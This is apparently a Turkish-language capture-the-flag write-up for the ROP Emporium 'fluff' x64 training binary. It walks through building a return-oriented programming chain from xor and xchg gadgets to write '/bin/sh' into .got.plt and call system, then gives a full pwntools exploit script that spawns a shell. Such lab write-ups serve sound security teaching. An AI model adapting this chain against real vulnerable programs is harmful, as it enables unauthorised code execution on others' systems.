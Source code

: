 # ROP Emporium `fluff` Writeup

![detail](img/detail.png)

x64 mimaride programımızı indirdik. Bize bu bölümün `write4` ile benzer olduğunu ancak `gadget` bulma konusunda biraz zorlanabileceğimizi belirtmiş.

Hızlıca objdump ile programımızı incelersek eğer `questionableGadgets` isimli bir fonksiyon dikkatimizi çekecektir.

![questionableGadgets](img/questionableGadgets.png)

Gördüğünüz üzere kullanabileceğimiz (sonu `ret` komutu ile biten) bazı işlevler/gadgetlar mevcut.

Açıklamada bize `write4` ile benzer olduğunu söylemişti. Hatırlıyacağınız üzere `write4` çözümünde `/bin/sh` komutumuzu `.got.plt` bölümünün içerisine `mov qword ptr ...` komutu ile taşımış daha sonra da `system` çağrısı ile çalıştırmıştık.

Burada da dikkat edecek olursak `0x40084e` adresinde `mov QWORD PTR` işlemi yapan bir komut var. O halde `r10` registerına `.got.plt` adresimizi ve `r11` registerımıza ise `/bin/sh` komutumuzu yazacağız.

Öncelikle `.got.plt` adresimizi `r10` registerımıza yazalım. Bunun için `pop r10` ' a ihtiyacımız var ancak direk bu işlemi gerçekleştiren bir gadget yok o yüzden dolaylı yoldan yazmamız gerekecek.

Fonksiyonumuzun içerisine bakacak olursak `xchg r11,r10` işlemi olduğunu görebiliriz. (xchg komutu r11 registerının içerisine r10 ' da ki değeri , r10 registerının içerisine r11 ' de ki değeri yazar)

O halde ilk önce `r11` içerisine `.got.plt` yazacağız ve sonra `xchg` komutu ile bunu `r10` registerına taşıyacağız. O zaman `pop r11` komutuna ihtiyacımız var ancak bu da malesef mevcut değil. Bunun içinde bir çözümümüz var elbette :) . Eğer herhangi bir değeri 0 ile `xor` işlemine sokarsanız değer değişmeyecektir. O halde `xor r11,r12` komutunu kullanabiliriz. `xor r11,r11` ile `r11` registerını sıfırlayacağız, `pop r12` komutu ile de `r12` registerına artık `.got.plt` adresimizi gireceğiz.

Birazcık uzun ve karışık oldu farkındayım. Daha iyi anlaşılması açısından hızlıca exploitimizin ilk aşamasını yazalım...

```py
# ROP Emporium fluff Exploit

from pwn import *

elf = ELF('fluff')

got_plt = p64(0x601000) # .got.plt address
system = p64(0x4005e0) # system@plt address

junk = p64(0x4141414141414141)
offset = ("A"*40).encode()
bin_sh = ("/bin/sh\x00").encode()

payload = offset
# write .got.plt address to r10
payload += p64(0x400822) # xor r11,r11 ; pop r14 ; mov edi,0x601050 ; ret
payload += junk # junk
payload += p64(0x400832) # pop r12 ; mov r13d, 0x604060 ; ret
payload += got_plt # .got.plt address -> r12
payload += p64(0x40082f) # xor r11,r12 ; pop r12 ; mov r13d, 0x604060 ; ret
payload += junk # r12 -> r11
payload += p64(0x400840) # xchg r11,r10 ; pop r15 ; mov r11d, 0x602050 ; ret
payload += junk # r11 -> r10

```

Evet tam olarak böyle bişi olması lazım. Önce `xor r11,r11` ile `r11` registerını sıfırlamış olduk. `pop r14` ' e ihtiyacımız olmadığı için `junk` girdik. Daha sonra `pop r12` ile r12 registerına `.got.plt` adresini yazabiliriz. 0 ile xor işlemine giren değer değişmeyeceği için `xor r11,r12` komutu ile aslında `r11` registerına `.got.plt` adresimizi yazmış olduk. (pop r12 ' ye bir daha ihtiyacımız olmadığı için önemsiz 8 karakter girdik). Ve son olarak `xchg r11,r10` komutu ile de `r10` içerisine adresimizi taşımış olduk. (pop 15 ' e ihtiyacımız olmadığı için önemsiz 8 karakter girdik)

Burası tamam olduğuna göre artık `r11` içerisine `/bin/sh` komutumuzu yazma çalışmalarına başlayabiliriz... Aslında az önce yazdıklarımıza bakarsak eğer r11 içerisine değer yazmak için ihtiyacımız olan şeyleri zaten bulmuşuz :D

```py
...
# write /bin/sh command to r11
payload += p64(0x400822) # xor r11,r11 ; pop r14 ; mov edi,0x601050 ; ret
payload += junk # junk
payload += p64(0x400832) # pop r12 ; mov r13d, 0x604060 ; ret
payload += bin_sh # /bin/sh command -> r12
payload += p64(0x40082f) # xor r11,r12 ; pop r12 ; mov r13d, 0x604060 ; ret
payload += junk # r12 -> r11

```

Evet çoğu gitti azı kaldı. Artık `bin_sh` komutumuzu `got_plt` adresinin içerisine taşıma vakti.

```py
...
# r11 to r10
payload += p64(0x40084e) # mov qword ptr [r10],r11 ; pop r13 ; pop r12 ; xor byte ptr [r10],r12b ; ret
payload += junk
payload += p64(0)

```

Dikkat etmemiz gereken nokta r13 ' e ihtiyacımız olmadığı için önemsiz 8 karakter verebiliyoruz ancak bizim için önemli olan r10 registerı r12b ile xor işlemine giriyor. Bu yüzden r10 registerının bozulmaması için r12b içerisinin sıfır olması yararımıza olacaktır.

Komutumuzu artık `.got.plt` içerisine yerleştirdiğimize göre `system` Fonksiyonumuzu çağırabiliriz.

```py
...
# system run /bin/sh
payload += p64(0x004008c3) # pop rdi ; ret
payload += got_plt
payload += system

```

Ve son olarak...

```py
...
# start process & send payload
e = process('./fluff')
print (e.recv)
e.sendline(payload)
e.interactive()

```

Artık çalıştırmaya hazır :)

![exploit](img/exploit.png)


## `Exploit`

```python
# ROP Emporium fluff Exploit

from pwn import *

elf = ELF('fluff')

got_plt = p64(0x601000) # .got.plt address
system = p64(0x4005e0) # system@plt address

junk = p64(0x4141414141414141)
offset = ("A"*40).encode()
bin_sh = ("/bin/sh\x00").encode()

payload = offset
# write .got.plt address to r10
payload += p64(0x400822) # xor r11,r11 ; pop r14 ; mov edi,0x601050 ; ret
payload += junk # junk
payload += p64(0x400832) # pop r12 ; mov r13d, 0x604060 ; ret
payload += got_plt # .got.plt address -> r12
payload += p64(0x40082f) # xor r11,r12 ; pop r12 ; mov r13d, 0x604060 ; ret
payload += junk # r12 -> r11
payload += p64(0x400840) # xchg r11,r10 ; pop r15 ; mov r11d, 0x602050 ; ret
payload += junk # r11 -> r10

# write /bin/sh command to r11
payload += p64(0x400822) # xor r11,r11 ; pop r14 ; mov edi,0x601050 ; ret
payload += junk # junk
payload += p64(0x400832) # pop r12 ; mov r13d, 0x604060 ; ret
payload += bin_sh # /bin/sh command -> r12
payload += p64(0x40082f) # xor r11,r12 ; pop r12 ; mov r13d, 0x604060 ; ret
payload += junk # r12 -> r11

# r11 to r10
payload += p64(0x40084e) # mov qword ptr [r10],r11 ; pop r13 ; pop r12 ; xor byte ptr [r10],r12b ; ret
payload += junk
payload += p64(0)

# system run /bin/sh
payload += p64(0x004008c3) # pop rdi ; ret
payload += got_plt
payload += system

# start process & send payload
e = process('./fluff')
print (e.recv)
e.sendline(payload)
e.interactive()

```
